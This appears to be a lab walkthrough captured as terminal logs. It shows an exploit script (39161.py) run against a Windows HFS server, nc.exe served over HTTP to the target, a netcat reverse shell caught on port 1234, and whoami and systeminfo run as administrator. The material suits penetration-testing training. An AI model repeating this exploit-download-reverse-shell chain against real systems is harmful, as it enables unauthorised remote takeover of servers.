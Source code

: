 ```
root@attackdefense:~/Desktop# python 39161.py 10.0.18.167 80
root@attackdefense:~/Desktop# python 39161.py 10.0.18.167 80

```

```
root@attackdefense:~/Desktop# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.0.18.167 - - [10/Apr/2023 20:14:44] "GET /nc.exe HTTP/1.1" 200 -
10.0.18.167 - - [10/Apr/2023 20:14:44] "GET /nc.exe HTTP/1.1" 200 -
10.0.18.167 - - [10/Apr/2023 20:14:44] "GET /nc.exe HTTP/1.1" 200 -
10.0.18.167 - - [10/Apr/2023 20:14:44] "GET /nc.exe HTTP/1.1" 200 -
10.0.18.167 - - [10/Apr/2023 20:15:54] "GET /nc.exe HTTP/1.1" 200 -
10.0.18.167 - - [10/Apr/2023 20:15:54] "GET /nc.exe HTTP/1.1" 200 -
10.0.18.167 - - [10/Apr/2023 20:15:54] "GET /nc.exe HTTP/1.1" 200 -
10.0.18.167 - - [10/Apr/2023 20:15:54] "GET /nc.exe HTTP/1.1" 200 -


```

```
root@attackdefense:~# nc -nvlp 1234
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.0.18.167.
Ncat: Connection from 10.0.18.167:49813.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\hfs>

```

```
C:\hfs>whoami
whoami
win-omcnbkr66mn\administrator

C:\hfs>systeminfo
systeminfo

Host Name:                 WIN-OMCNBKR66MN
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          EC2
Registered Organization:   Amazon.com
Product ID:                00252-70000-00000-AA535
Original Install Date:     9/10/2020, 9:10:37 AM
System Boot Time:          4/10/2023, 2:05:52 PM
System Manufacturer:       Xen
System Model:              HVM domU
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2400 Mhz
BIOS Version:              Xen 4.11.amazon, 8/24/2006
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC) Coordinated Universal Time
```